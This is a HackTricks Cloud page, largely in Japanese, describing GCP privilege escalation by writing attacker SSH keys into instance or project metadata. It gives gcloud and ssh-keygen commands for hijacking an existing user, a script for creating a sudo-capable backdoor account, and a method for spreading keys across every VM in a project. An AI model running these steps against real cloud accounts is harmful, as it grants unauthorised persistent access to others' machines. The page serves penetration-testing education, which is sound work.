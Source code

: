 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

インスタンスのメタデータの変更は、**攻撃者が必要な権限を取得した場合、重大なセキュリティリスクを引き起こす可能性があります**。

#### **カスタムメタデータへのSSHキーの組み込み**

GCPでは、**Linuxシステム**はしばしば[Google Compute Engine用のPython Linux Guest Environment](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)からスクリプトを実行します。この重要なコンポーネントは、**認可されたSSH公開鍵の更新**のためにインスタンスメタデータエンドポイントを**定期的にチェック**するように設計された[アカウントデーモン](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)です。

したがって、攻撃者がカスタムメタデータを変更できる場合、デーモンが新しい公開鍵を見つけるようにし、それが処理されて**ローカルシステムに統合される**ことになります。この鍵は、**既存のユーザーの`~/.ssh/authorized_keys`ファイルに追加されるか、鍵の形式に応じて`sudo`権限を持つ新しいユーザーが作成される可能性があります**。攻撃者はホストを侵害することができます。

#### **既存の特権ユーザーにSSHキーを追加する**

1. **インスタンス上の既存のSSHキーを調査する:**
*   インスタンスとそのメタデータを記述するコマンドを実行して、既存のSSHキーを見つけます。出力の関連セクションは`metadata`の下、特に`ssh-keys`キーの下にあります。

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* SSHキーの形式に注意してください: ユーザー名は鍵の前にあり、コロンで区切られています。
2. **SSHキーのメタデータ用のテキストファイルを準備する:**
* ユーザー名とそれに対応するSSHキーの詳細を`meta.txt`という名前のテキストファイルに保存します。これは、新しいキーを追加しながら既存のキーを保持するために重要です。
3. **ターゲットユーザー（この例では`alice`）のために新しいSSHキーを生成する:**
*   `ssh-keygen`コマンドを使用して新しいSSHキーを生成し、コメントフィールド（`-C`）がターゲットユーザー名と一致するようにします。

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* 新しい公開鍵を`meta.txt`に追加し、インスタンスのメタデータに見られる形式を模倣します。
4. **インスタンスのSSHキーのメタデータを更新する:**
*   `gcloud compute instances add-metadata`コマンドを使用して、更新されたSSHキーのメタデータをインスタンスに適用します。

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **新しいSSHキーを使用してインスタンスにアクセスする:**
*   新しいキーを使用してSSHでインスタンスに接続し、ターゲットユーザー（この例では`alice`）のコンテキストでシェルにアクセスします。

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **新しい特権ユーザーを作成し、SSHキーを追加する**

興味深いユーザーが見つからない場合は、`sudo`権限を与えられる新しいユーザーを作成することが可能です:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### プロジェクトレベルのSSHキー <a href="#sshing-around" id="sshing-around"></a>

**プロジェクトレベルでSSHキーを適用する**ことで、クラウド環境内の複数の仮想マシン（VM）へのSSHアクセスを拡大することが可能です。このアプローチにより、プロジェクト内の明示的にプロジェクト全体のSSHキーをブロックしていないインスタンスへのSSHアクセスが可能になります。以下は要約ガイドです：

1. **プロジェクトレベルでSSHキーを適用する:**
*   `gcloud compute project-info add-metadata`コマンドを使用して、`meta.txt`からプロジェクトのメタデータにSSHキーを追加します。この操作により、VMが「プロジェクト全体のSSHキーをブロック」オプションを有効にしていない限り、SSHキーがプロジェクト内のすべてのVMで認識されることが保証されます。

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **プロジェクト全体のキーを使用してインスタンスにSSH接続する:**
* プロジェクト全体のSSHキーが設定されている場合、プロジェクト内の任意のインスタンスにSSH接続できます。プロジェクト全体のキーをブロックしていないインスタンスはSSHキーを受け入れ、アクセスを許可します。
* インスタンスにSSH接続する直接的な方法は、`gcloud compute ssh [INSTANCE]`コマンドを使用することです。このコマンドは、現在のユーザー名とプロジェクトレベルで設定されたSSHキーを使用してアクセスを試みます。

## 参考文献

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
